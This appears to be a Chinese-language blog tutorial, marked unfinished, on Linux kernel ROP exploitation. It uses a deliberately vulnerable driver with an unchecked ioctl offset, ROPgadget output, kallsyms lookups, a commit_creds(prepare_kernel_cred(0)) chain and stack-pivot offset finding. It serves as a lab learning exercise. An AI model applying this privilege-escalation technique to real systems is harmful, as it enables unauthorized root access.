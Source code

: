 ```yaml
---
layout: post
title: KernelROP
excerpt: "https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/linux-kernel-rop-ropping-your-way-to-part-1/"
categories: [未完待续]
comments: true
---
```


**看本文需要了解的知识:**

`dmesg`命令用于显示开机信息。kernel会将开机信息存储在ring buffer中。您若是开机时来不及查看信息，可利用dmesg来查看。开机信息亦保存在/var/log目录中，名称为dmesg的文件里。

`insmod`命令用于载入模块。Linux有许多功能是通过模块的方式，在需要时才载入kernel。如此可使kernel较为精简，进而提高效率，以及保有较大的弹性。这类可载入的模块，通常是设备驱动程序。

查找内核二进制文件
```
find / -name vmlinux
/usr/lib/debug/usr/lib/modules/3.10.0-1062.4.1.el7.x86_64/vmlinux
```
事先将内核中的gadgets文件保存下来
```
ROPgadget --binary /usr/lib/debug/usr/lib/modules/3.10.0-1062.4.1.el7.x86_64/vmlinux > ropgadget
```
`ret [num]`这样的gadget会将栈指针递增，ret使用一个操作数来表示在获取下一条指令后从栈中弹出的字节数。注意：一个gadget可能是在一个非执行页中，这时要找一个可代换的gadget。

找到`prepare_kernel_cred`和`commit_creds`的地址：
```
grep prepare_kernel_cred /proc/kallsyms
ffffffffb6ecc440 T prepare_kernel_cred
grep commit_creds /proc/kallsyms
ffffffffb6ecc130 T commit_creds
```
ROP链的初步构造如下：
```
+----------------------------------------------+
| 0xffffffff810d783d : pop rdi ; ret           |
+----------------------------------------------+
| NULL                                         |
+----------------------------------------------+
| 0xffffffff81092870 : prepare_kernel_cred     |
+----------------------------------------------+
| 0xffffffff8110eaa3 : pop rdx ; ret           |
+----------------------------------------------+
| 0xffffffff81092570 : commit_creds            |
+----------------------------------------------+
| 0xffffffff81036321 : mov rdi, rax ; call rdx |
+----------------------------------------------+
```
#### 有漏洞的驱动(binary在附件中:kernel_rop-master.zip)
为了演示内核中ROP链的可用性，用以下有漏洞的驱动进行演示：
```c
struct drv_req {
        unsigned long offset;
};
...


static long device_ioctl(struct file *file, unsigned int cmd, unsigned long args) {
        struct drv_req *req;
        void (*fn)(void);

        switch(cmd) {
        case 0:
                req = (struct drv_req *)args;
                printk(KERN_INFO "size = %lx\n", req->offset);
                printk(KERN_INFO "fn is at %p\n", &ops[req->offset]);
                fn = &ops[req->offset];                                     [1]
                fn();
                break;
        default:
                break;
        }

        return 0;
}
```
编译并加载驱动
```c
make && sudo insmod ./drv.ko
make -C /lib/modules/3.10.0-1062.4.1.el7.x86_64/build M=/root/sploitfun/kernelrop/kernel_rop modules
make[1]: 进入目录“/usr/src/kernels/3.10.0-1062.4.1.el7.x86_64”
  Building modules, stage 2.
  MODPOST 1 modules
make[1]: 离开目录“/usr/src/kernels/3.10.0-1062.4.1.el7.x86_64”
# compile the trigger
gcc trigger.c -O2 -o trigger
```
`ops`数组没有进行边界检查。用户提供的偏移量足够大就可以在用户空间或内核空间中访问任何内存地址。
驱动在加载时注册`/dev/vulndrv`设备并打印ops数组地址。

查找ops地址
```
dmesg | grep ops
[616271.889769] addr(ops) = ffffffffc0813320
```
#### 结果
```
chmod 777 /dev/vulndrv
```
编译rop_exploit
```bash
gcc rop_exploit.c -O2 -o rop_exploit
```
```
cat ropgadget | grep ': xchg eax, esp ; ret' > stackpivots
```
```bash
./find_offset.py ffffffffc0813320 stackpivots
offset = 18446744073576518328
gadget = xchg eax, esp ; ret 0x141
stack addr = 8111c8e0
```